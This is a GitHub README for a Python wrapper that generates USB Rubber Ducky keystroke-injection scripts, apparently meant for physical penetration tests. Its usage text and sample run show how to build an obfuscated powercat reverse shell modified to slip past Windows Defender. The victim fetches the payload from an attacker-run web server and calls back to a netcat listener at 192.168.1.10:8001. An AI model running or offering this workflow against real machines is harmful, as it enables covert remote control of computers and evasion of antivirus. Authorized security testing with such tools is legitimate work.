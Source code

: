 # duckyScripting
Just my rubber ducky scripts and some wrappers.

## help
```
$ python3 quack.py -h
usage: quack.py [-h] [-s] [-wr] [-l LISTENER] [-pp PAYLOADPROVIDER]

Prepare rubber ducky scripts for physical engagments. Tool made by H4. Creds for powercat go to https://github.com/besimorhino/powercat

optional arguments:
  -h, --help            show this help message and exit
  -s, --setup           initial setup
  -wr, --windowsReverse
                        creating an obfuscated Windows reverse shell
  -l LISTENER, --listener LISTENER
                        IP and port of shell listener. Format: IP:PORT (needed for -wr option)
  -pp PAYLOADPROVIDER, --payloadProvider PAYLOADPROVIDER
                        server which provides the obfuscated powercat version. Format: IP:PORT (needed for -wr option)

example usage: python3 quack.py-wr -l 192.168.1.10:8001 -pp 192.168.1.10:80
```

## setup
Start by running in setup mode to download every needed resource.
```bash
$ python3 quack.py --setup
[#] 1. Downloading powercat (https://github.com/besimorhino/powercat) for Windows reverse shell payload...
```

## reverse shells
### Windows
- Using [Powercat](https://github.com/besimorhino/powercat)
- Modifying [Powercat](https://github.com/besimorhino/powercat) to bypass Windows Defender detection

Example
```
python3 quack.py -wr -l 192.168.1.10:8001 -pp 192.168.1.10:80

[#] Selected payload: Windows reverse shell

[#] 1. Are all parameters correct?
[#]	shell listener IP: 192.168.1.10
[#]	shell listener PORT: 8001
[#]	payload provider IP: 192.168.1.10
[#]	payload provider PORT: 80
[#] Y/N? Y

[#] 2. Obfuscating powercat...

[#] 3. Creating ducky script payload...
[+] Ducky script payload wrote to generated_scripts/tojszwdbxnsoidwl_windows_reverse_shell.txt

[#] Before you use the ducky script perform the following steps.
[#]	1. Start a web server on 192.168.1.10 to provide the obfuscated powercat script:
[#]		- Copy tojszwdb.ps1 to 192.168.1.10
[#]		- In the same folder as tojszwdb.ps1 start a web server: python3 -m http.server 80
[#]	2. Start the shell listener on 192.168.1.10:
[#]		- Start nc -lvp 8001

[+] Good bye! Have fun with the ducky script.
```

